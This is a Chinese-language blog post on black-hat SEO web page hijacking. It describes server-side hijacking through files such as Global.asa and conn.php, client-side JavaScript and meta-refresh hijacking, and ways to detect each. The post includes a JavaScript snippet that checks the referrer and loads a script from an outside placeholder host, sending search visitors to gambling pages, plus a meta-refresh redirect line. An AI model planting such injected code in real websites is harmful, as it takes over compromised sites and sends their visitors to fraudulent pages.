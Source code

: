 ```yaml
---
title: 黑帽SEO之网页劫持
date: 2016-10-12 10:25:13
comments: true
tags: 黑帽SEO
categories: 技术交流
---
```

　　网页劫持是目前黑帽SEO或者说黑产最喜欢的一种网页引流方式，此手法往往通过入侵政府、教育机构网站（权重高），修改网站源代码、放寄生虫程序、设置二级目录反向代理等实现。网页劫持可以分为服务端劫持、客户端劫持、百度快照劫持、百度搜索劫持等等；表现形式可以是劫持跳转，也可以是劫持呈现的网页内容，目前被广泛应用于私服、博彩等暴利行业。

### 服务端劫持
服务端劫持也称为全局劫持，手法为修改网站动态语言文本，判断访问来源控制返回内容，从来达到网站劫持的目的。
#### asp/aspx/php劫持
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本， 然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问，则返回正常页面。

### 客户端劫持
客户端劫持的手法也很多，但主要就是2种：js劫持、Header劫持。
#### js劫持
js劫持目的：通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。
js植入手法：可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。
#### js劫持案例
效果：通过搜索引擎搜索点击页面（执行一段js）跳转到博彩页面；直接输入网址访问网页，跳转到404页面。
代码：
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。
#### header劫持
在源代码中写入以下代码：
```bash
<meta http-equiv=“refresh“ content=“10; url=http://thief.one“>
```
利用的就是Meta Refresh Tag（自动转向），将流量引走。

### 手法对比
#### 客户端劫持与服务端区别
客户端劫持：每次访问网页从服务端获取到的网页代码都是相同的，只是控制了网页代码在浏览器中呈现的效果（比如是否进行跳转等）。
服务端劫持：改变了每次访问网页从服务端获取到的网页代码。
#### 客户端劫持与服务端判断方法
客户端劫持的判断方法：只需观察浏览器呈现的网页前端代码，查看是否引用了不当的js，或者其它敏感内容。
服务端劫持的判断方法：可以通过观察网站后端代码，或者通过改变ip，包头等方式，观察放回源码是否不同。

结语：*网页劫持的方法还有很多，我了解的大概只是皮毛，黑帽SEO技术的水很深，前路漫漫。*
